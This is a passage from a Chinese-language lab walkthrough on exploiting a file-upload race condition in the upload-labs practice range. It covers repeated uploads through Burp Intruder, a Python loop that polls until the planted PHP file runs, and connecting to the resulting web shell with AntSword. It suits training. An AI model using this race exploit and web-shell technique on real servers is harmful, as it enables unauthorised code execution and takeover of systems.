 上传文件，使用burp的代理，截获http消息

![image-20241108135327815](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241108135327815.png)

然后将消息放到`intruder`模块

![image-20241108135414954](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241108135414954.png)

###### 一直发送


![image-20241108135504322](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241108135504322.png)

![image-20241108135530708](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241108135530708.png)

##### 2.python 对上传的文件进行请求

然后使用python程序，一直对我们上传的文件进行请求，只要请求成功，就会得到**200**的响应，

也就是**上传的文件成功被执行**了，`xxx.php`已经被生成

```python
import requests

weburl= "http://192.168.70.10/upload-labs"
url = weburl + "/upload/create.php"
url2= weburl + "/upload/xxx.php"

while True:
	html = requests.get(url)
	response = requests.get(url2)
	if response.status_code == 200:
		print("ok")
		break
```

![image-20241108141417020](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241108141417020.png)

##### 蚁剑连接

```bash
http://192.168.70.10/upload-labs/upload/xxx.php
xxx
```

![image-20241108140840176](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241108140840176.png)

![image-20241108140907861](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241108140907861.png)

# 靶场练习

## 01.隧道代理
